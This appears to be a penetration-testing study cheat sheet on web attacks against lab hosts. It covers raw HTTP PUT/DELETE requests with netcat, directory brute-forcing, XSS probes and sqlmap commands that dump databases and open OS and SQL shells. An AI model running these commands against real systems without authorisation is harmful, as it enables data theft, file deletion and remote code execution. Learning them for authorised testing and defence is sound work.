 ```yaml
---
description: Web application vulns and exploits
---
```


# Web Attacks

## Banner grabbing

### Netcat (for HTTP services) <a href="netcat-for-http-services" id="netcat-for-http-services"></a>

```
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL (for HTTPS services) <a href="openssl-for-https-services" id="openssl-for-https-services"></a>

```
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint <a href="httprint" id="httprint"></a>

```
httprint -P0 -h 10.10.10.10 -s /usr/share/httprint/signatures.txt
```

## HTTP Verbs <a href="http-verbs" id="http-verbs"></a>

`GET, POST, HEAD, PUT, DELETE`

### PUT is used to upload a file to the server <a href="put-is-used-to-upload-a-file-to-the-server" id="put-is-used-to-upload-a-file-to-the-server"></a>

You have to find the size of the file you are uploading first

```
wc -m payload.php
[size] payload.php
```

```
nc 10.10.10.10 80
PUT /payload.php
Content-type: text/html
Content-length: [size]

```

### DELETE is used to delete a file from the server <a href="delete-is-used-to-delete-a-file-from-the-server" id="delete-is-used-to-delete-a-file-from-the-server"></a>

```
nc 10.10.10.10 80
DELETE /path/to/file.txt / HTTP/1.0
```

### OPTIONS is used to query the webserver for enabled HTTP Verbs <a href="options-is-used-to-query-the-webserver-for-enabled-http-verbs" id="options-is-used-to-query-the-webserver-for-enabled-http-verbs"></a>

```
nc 10.10.10.10 80
OPTIONS / HTTP/1.0
```

## Directory and File scanning <a href="directory-and-file-scanning" id="directory-and-file-scanning"></a>

### Dirbuster <a href="dirbuster" id="dirbuster"></a>

![Dirbuster](https://gblobscdn.gitbook.com/assets%2F-M\_9npUfU_wpKvUX_GaB%2F-MagR4YPOWTFD\_15vHvL%2F-MahfUhT53l7HHnpBBge%2Fdirbuster.png?alt=media\&token=61b8043d-946f-4850-884f-0fb38c3ae4d7)

### dirb <a href="dirb" id="dirb"></a>

```
dirb http://10.10.10.10/
```

**If Webpage is authenticated**

```
dirb http://10.10.10.10/ -u <username>:<password>
```

1. You can choose different wordlists for the dictionary brute force but from my experience in most labs you can find them in the `common.txt`
2. You can also choose different extensions but _`php`_ and _`bak`_ will be the most useful ones to find.
3. If there is HTTP authentication or login of some other kind for the webpage you can set the creds using \[Options -> Advanced Options -> Authentication options]
4. The con with Dirbuster is that it sometimes freezes which is a real bummer otherwise it's real good.

## Google Dorks <a href="google-dorks" id="google-dorks"></a>

`site: `\
`intitle: `\
`inurl: `\
`filetype: `\
`AND, OR & | `\
`-`

​[GHDB](https://www.exploit-db.com/google-hacking-database) for more resources.

## XSS (Cross-Site Scripting) <a href="xss-cross-site-scripting" id="xss-cross-site-scripting"></a>

1. Find a reflection point
2. Test with HTML tag (\<h1>Test\</h1>)
3. Test with JS code \[alert('XSS')]

XSS filter bypass cheatsheet: [OWASP cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)​

**Reflected XSS**: Payload is carried inside the request the victim sends to the website. Typically the link contains the malicious payload.

**Persistent XSS**: Payload remains in the site that multiple users can fall victim to. Typically embedded via a form or forum post.

## SQL Injections <a href="sql-injections" id="sql-injections"></a>

### GET <a href="get" id="get"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id
```

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U
```

### Database USER <a href="database-user" id="database-user"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --user
```

### Databases <a href="databases" id="databases"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dbs
```

### Dump all <a href="dump-all" id="dump-all"></a>

```
sqlmap -u 'http://10.10.10.10/search.php?id=123' -p id --technique=U --dump
```

### POST <a href="post" id="post"></a>

Find the parameters that are being passed in POST using BurpSuite. \
E.g: **`username=some&password=thing`** where the parameter username is vulnerable.

```
sqlmap -u 'http://10.10.10.10/login.php' --data='username=some&password=thing' -p username --technique=B
```

**The Databases, Users and dump-all switches are the same as for the GET parameter.**

If you aren't able to deduce which parameter is vulnerable in POST, you can drop the -p switch. SQLMAP will try to test them and find them on its own so don't sweat it and also for most of the prompts use the default options(i.e. just press enter).

The --technique switch is to create less noise and prevent the service from shutting down due to query overload. If the given techniques do not work try it removing the switch.

### OS-Shell <a href="os-shell" id="os-shell"></a>

```
sqlmap -u "http://10.10.10.10/login.php" --os-shell
```

### SQL-Shell <a href="sql-shell" id="sql-shell"></a>

```
sqlmap -u "http://10.10.10.10/login.php" --sql-shell
```
